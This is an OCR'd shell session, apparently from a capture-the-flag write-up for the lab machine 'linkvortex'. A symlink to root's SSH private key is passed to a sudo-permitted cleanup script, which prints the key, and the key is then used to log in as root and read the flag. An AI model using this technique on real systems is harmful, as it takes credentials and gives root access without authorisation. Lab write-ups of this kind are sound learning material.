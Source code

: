 ```bash
bob@linkvortex:/var/quarantined$ ln -s /root/.ssh/id_rsa n00b
bob@linkvortex:/var/quarantined$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh exploit.png
Link found [ exploit.png ] , moving it to quarantine
/usr/bin/mv: 'exploit.png' and '/var/quarantined/exploit.png' are the same file
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmpHVhV11MW7eGt9WeJ23rVuqlWnMpF+FclWYwp4SACcAilZdOF8T
...
xmo6eXMvU90HVbakUoRspYWISr51uVEvIDuNcZUJlseINXimZkrkD40QTMrYJc9slj9wkA
ICLgLxRR4sAx0AAAAPcm9vdEBsaW5rdm9ydGV4AQIDBA==
-----END OPENSSH PRIVATE KEY-----

# -------------------------------

$ vim root.key
$ chmod 600 root.key
$ ssh -i root.key root@10.10.11.47
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)
...

Last login: Mon Dec  2 11:20:43 2024 from 10.10.14.61
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
root@linkvortex:~# whoami
root
root@linkvortex:~# cat root.txt 
5f3e.....ebc9
```